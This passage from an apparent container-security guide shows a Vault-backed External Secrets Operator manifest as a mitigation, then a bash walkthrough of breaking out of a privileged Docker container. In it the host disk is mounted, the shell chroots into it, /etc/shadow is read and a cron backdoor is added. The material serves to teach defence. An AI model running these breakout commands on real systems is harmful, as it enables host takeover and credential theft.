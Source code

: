 
#### Mitigation 2: External Secrets Operator + Vault

```yaml
apiVersion: external-secrets.io/v1beta1
kind: ExternalSecret
metadata:
  name: app-secrets
spec:
  refreshInterval: 1h
  secretStoreRef:
    name: vault-backend
  target:
    name: app-secrets
  data:
  - secretKey: database-password
    remoteRef:
      key: myapp/database
      property: password
  - secretKey: api-key
    remoteRef:
      key: myapp/api
      property: key
```

**Benefits:**
- ✅ Secrets never in Git
- ✅ Centralized in Vault
- ✅ Automatic rotation
- ✅ Audit trail
- ✅ Not visible in env vars

---

## Attack 3: Container Breakout via Privileged Container

### Attack Scenario

```bash
# Attacker creates privileged container
docker run -it --rm --privileged ubuntu bash

# Inside container - can access host devices
ls -la /dev/
# All host devices visible:
# /dev/sda1 (host disk)
# /dev/dm-0 (host volumes)

# Mount host filesystem
mkdir /mnt/host
mount /dev/sda1 /mnt/host

# Full host access
chroot /mnt/host

# Now effectively root on host
cat /etc/shadow
crontab -e  # Add backdoor
```
